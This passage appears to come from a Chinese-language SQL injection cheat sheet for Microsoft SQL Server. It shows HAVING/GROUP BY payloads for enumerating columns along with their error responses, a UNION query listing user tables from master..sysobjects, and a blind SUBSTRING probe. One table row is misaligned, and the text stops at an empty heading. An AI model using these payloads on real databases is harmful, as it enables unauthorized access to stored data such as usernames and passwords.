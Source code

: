 <table style="box-sizing: border-box; border-collapse: separate; border-spacing: 0px; background-color: rgb(255, 255, 255); border-top: 1px solid rgb(224, 224, 224); border-left: 1px solid rgb(224, 224, 224); font-family: Helvetica, Arial, &quot;Hiragino Sans GB&quot;, sans-serif; letter-spacing: normal; orphans: 2; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial;"><tbody style="box-sizing: border-box;"><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">1' HAVING 1=1--</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">选择列表中的列 'Users.username' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">1' GROUP BY username HAVING 1=1--</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">True</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">选择列表中的列 'Users.username' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">True</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">1' GROUP BY username, password HAVING 1=1--</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">选择列表中的列 'Users.username' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">1' GROUP BY username, password, permission HAVING 1=1--</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">没有错误</td></tr></tbody></table>

附：一旦匹配所有的列将返回正常请求页面.

### 检索表

我们可以从两个不同的数据库，`information_schema.tables`或`from master..sysobjects`中检索表。

### 联合查询:

```
UNION SELECT name FROM master..sysobjects WHERE xtype='U'

```

附：

```
U = 用户表, V = 视图 , X = 扩展存储过程

```

### 盲注类型：

```
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'

```

### 报错类型:
